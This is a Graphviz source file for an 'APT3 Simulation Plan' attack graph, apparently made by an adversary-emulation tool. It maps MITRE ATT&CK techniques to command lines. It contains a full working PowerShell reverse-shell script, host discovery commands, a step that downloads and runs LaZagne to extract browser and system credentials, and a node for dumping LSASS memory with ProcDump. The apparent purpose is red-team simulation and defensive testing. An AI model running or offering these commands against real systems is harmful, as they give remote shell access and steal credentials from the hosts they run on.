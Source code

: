 digraph {
	label=<<font point-size="24">APT3</font><br/><i>APT3 Simulation Plan</i><br/><font point-size="10">Author: APT Simulator</font><br/><font point-size="10">Created: 2024-05-13 17:57:24.425591+00:00</font><br/><font point-size="10">Modified: 2024-05-13 17:57:24.425591+00:00</font>>;
	labelloc="t";
	"attack-action--0c25a303-ae0a-45ca-b6b2-bba94b618039" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1046</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1046</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Run simple Nmap scan</TD></TR></TABLE>> shape=plaintext]
	"attack-action--0c25a303-ae0a-45ca-b6b2-bba94b618039" -> "attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=asset]
	"attack-action--0c25a303-ae0a-45ca-b6b2-bba94b618039" -> "attack-condition--60dd4348-be7e-44a4-8962-c7994fc0da02" [label=condition]
	"attack-action--0c25a303-ae0a-45ca-b6b2-bba94b618039" -> "process--481fa1bd-d94c-4bd7-98c2-694fb6839356" [label=process]
	"attack-asset--033e2d15-abde-4701-bb2b-76f963576fba" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Attacker</TD></TR></TABLE>> shape=plaintext]
	"process--481fa1bd-d94c-4bd7-98c2-694fb6839356" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">nmap -Pn -n -T4 -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--60dd4348-be7e-44a4-8962-c7994fc0da02" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ff99" COLSPAN="2"><B>Condition</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">get_reverse_shell_windows =&gt; $LHOST =<br/>&quot;&quot;; $LPORT = 9595; $TCPClient<br/>= New-Object<br/>Net.Sockets.TCPClient($LHOST, $LPORT);<br/>$NetworkStream = $TCPClient.GetStream();<br/>$StreamReader = New-Object<br/>IO.StreamReader($NetworkStream);<br/>$StreamWriter = New-Object<br/>IO.StreamWriter($NetworkStream);<br/>$StreamWriter.AutoFlush = $true; $Buffer<br/>= New-Object System.Byte[] 1024; while<br/>($TCPClient.Connected) { while<br/>($NetworkStream.DataAvailable) {<br/>$RawData = $NetworkStream.Read($Buffer,<br/>0, $Buffer.Length); $Code = ([text.encod<br/>ing]::UTF8).GetString($Buffer, 0,<br/>$RawData -1) }; if ($TCPClient.Connected<br/>-and $Code.Length -gt 1) { $Output = try<br/>{ Invoke-Expression ($Code) 2&gt;&amp;1<br/>} catch { $_ };<br/>$StreamWriter.Write($Output); $Code =<br/>$null } }; $TCPClient.Close();<br/>$NetworkStream.Close();<br/>$StreamReader.Close();<br/>$StreamWriter.Close()</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--60dd4348-be7e-44a4-8962-c7994fc0da02" -> "attack-action--4ff38a80-9872-4d51-9bbb-e04fa4fee5ef" [label=on_true]
	"attack-action--4ff38a80-9872-4d51-9bbb-e04fa4fee5ef" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1566.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1566.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Give remote shell under non-privileged<br/>account(run .ps1 =&gt; reverse shell)</TD></TR></TABLE>> shape=plaintext]
	"attack-action--4ff38a80-9872-4d51-9bbb-e04fa4fee5ef" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--4ff38a80-9872-4d51-9bbb-e04fa4fee5ef" -> "attack-action--be4cf73d-4a74-47f7-af5a-e0f494b67936" [label=effect]
	"attack-action--4ff38a80-9872-4d51-9bbb-e04fa4fee5ef" -> "attack-action--2b691cfd-518a-4ce5-9e77-b5b100a139f3" [label=effect]
	"attack-action--4ff38a80-9872-4d51-9bbb-e04fa4fee5ef" -> "process--d4da3c2f-b4cc-4e50-8549-57c1deb2c16f" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--d4da3c2f-b4cc-4e50-8549-57c1deb2c16f" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT"># Execution not required for this action, only set up.</TD></TR></TABLE>> shape=plaintext]
	"attack-action--2b691cfd-518a-4ce5-9e77-b5b100a139f3" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1204.002</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1204.002</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--be4cf73d-4a74-47f7-af5a-e0f494b67936" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1016</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1016</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">System Network Configuration Discovery<br/>on Windows</TD></TR></TABLE>> shape=plaintext]
	"attack-action--be4cf73d-4a74-47f7-af5a-e0f494b67936" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--be4cf73d-4a74-47f7-af5a-e0f494b67936" -> "attack-action--f8b50ccb-ec53-4dff-bbb1-ee16a59d5643" [label=effect]
	"attack-action--be4cf73d-4a74-47f7-af5a-e0f494b67936" -> "process--fd8954cb-2b80-48ce-ba4d-115f0e9efa0e" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--fd8954cb-2b80-48ce-ba4d-115f0e9efa0e" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">ipconfig /all ;netsh interface show interface ;arp -a ;nbtstat -n ;net config</TD></TR></TABLE>> shape=plaintext]
	"attack-action--f8b50ccb-ec53-4dff-bbb1-ee16a59d5643" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1057</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1057</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Process Discovery - tasklist,Get-Process</TD></TR></TABLE>> shape=plaintext]
	"attack-action--f8b50ccb-ec53-4dff-bbb1-ee16a59d5643" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--f8b50ccb-ec53-4dff-bbb1-ee16a59d5643" -> "attack-action--dca04daf-0cc2-4073-8161-251ae52b6332" [label=effect]
	"attack-action--f8b50ccb-ec53-4dff-bbb1-ee16a59d5643" -> "process--26cc9651-a4a9-49e7-8841-696c5acb6228" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--26cc9651-a4a9-49e7-8841-696c5acb6228" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">tasklist ;Get-Process ;get-wmiObject -class Win32_Process</TD></TR></TABLE>> shape=plaintext]
	"attack-action--dca04daf-0cc2-4073-8161-251ae52b6332" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1083</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1083</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">File and Directory Discovery (cmd.exe)</TD></TR></TABLE>> shape=plaintext]
	"attack-action--dca04daf-0cc2-4073-8161-251ae52b6332" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--dca04daf-0cc2-4073-8161-251ae52b6332" -> "attack-action--3e6b8b2a-b267-44c9-b123-5f802ca3ad3a" [label=effect]
	"attack-action--dca04daf-0cc2-4073-8161-251ae52b6332" -> "attack-action--440a34d0-631c-497f-a7af-4ae12465f0a0" [label=effect]
	"attack-action--dca04daf-0cc2-4073-8161-251ae52b6332" -> "process--eb5b1f97-00a3-4b75-9e4c-5d7b0a4a936e" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--eb5b1f97-00a3-4b75-9e4c-5d7b0a4a936e" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">dir /s c:\\ &gt;&gt; T1083_cmd_text.txt ;dir /s &quot;c:\\Documents and Settings&quot; &gt;&gt; T1083_cmd_text.txt ;dir<br/>/s &quot;c:\\Program Files\\&quot; &gt;&gt; T1083_cmd_text.txt ;dir &quot;%systemdrive%\\Users\\*.*&quot; &gt;&gt;<br/>T1083_cmd_text.txt ;dir &quot;%userprofile%\\AppData\\Roaming\\Microsoft\\Windows\\Recent\\*.*&quot; &gt;&gt;<br/>T1083_cmd_text.txt ;dir &quot;%userprofile%\\Desktop\\*.*&quot; &gt;&gt; T1083_cmd_text.txt ;tree /F &gt;&gt;<br/>T1083_cmd_text.txt ;dir c:\\</TD></TR></TABLE>> shape=plaintext]
	"attack-action--440a34d0-631c-497f-a7af-4ae12465f0a0" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1552.001: Credentials In Files</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1552.001: Credentials In Files</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--3e6b8b2a-b267-44c9-b123-5f802ca3ad3a" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1069.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1069.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Local Permission Groups Discovery</TD></TR></TABLE>> shape=plaintext]
	"attack-action--3e6b8b2a-b267-44c9-b123-5f802ca3ad3a" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--3e6b8b2a-b267-44c9-b123-5f802ca3ad3a" -> "attack-action--9dc857a8-ddc3-4b1d-ba83-408b6cc16488" [label=effect]
	"attack-action--3e6b8b2a-b267-44c9-b123-5f802ca3ad3a" -> "attack-action--e0fddf4f-7739-4124-87d2-4089c571791b" [label=effect]
	"attack-action--3e6b8b2a-b267-44c9-b123-5f802ca3ad3a" -> "process--8933cc68-e45b-4fca-a846-5c55622d500a" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--8933cc68-e45b-4fca-a846-5c55622d500a" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">net localgroup ;net localgroup &quot;Administrators&quot; ;get-localgroup ;Get-LocalGroupMember -Name<br/>&quot;Administrators&quot;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--e0fddf4f-7739-4124-87d2-4089c571791b" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--9dc857a8-ddc3-4b1d-ba83-408b6cc16488" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1552.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1552.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Extract Browser and System credentials<br/>with LaZagne</TD></TR></TABLE>> shape=plaintext]
	"attack-action--9dc857a8-ddc3-4b1d-ba83-408b6cc16488" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--9dc857a8-ddc3-4b1d-ba83-408b6cc16488" -> "attack-action--8b590284-298e-4cbf-8681-487447b1179d" [label=effect]
	"attack-action--9dc857a8-ddc3-4b1d-ba83-408b6cc16488" -> "attack-action--53c19558-aafc-4f97-9e32-d071780c1c22" [label=effect]
	"attack-action--9dc857a8-ddc3-4b1d-ba83-408b6cc16488" -> "process--386ca621-5bcf-4737-9905-6af020e80c0c" [label=process]
	"attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--386ca621-5bcf-4737-9905-6af020e80c0c" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">wget http:///LaZagne.exe -OutFile LaZagne.exe; .\\LaZagne.exe all ;</TD></TR></TABLE>> shape=plaintext]
	"attack-action--53c19558-aafc-4f97-9e32-d071780c1c22" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1105</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1105</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--8b590284-298e-4cbf-8681-487447b1179d" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1003.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1003.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Dump LSASS.exe Memory using ProcDump</TD></TR></TABLE>> shape=plaintext]
	"attack-action--8b590284-298e-4cbf-8681-487447b1179d" -> "attack-asset--27cab9ad-a9b9-4fa1-9e72-b075317b97fc" [label=asset]
	"attack-action--8b590284-298e-4cbf-8681-487447b1179d" -> "attack-action--d2108b57-ae00-41bc-8b94-71ae29c4579b" [label=effect]
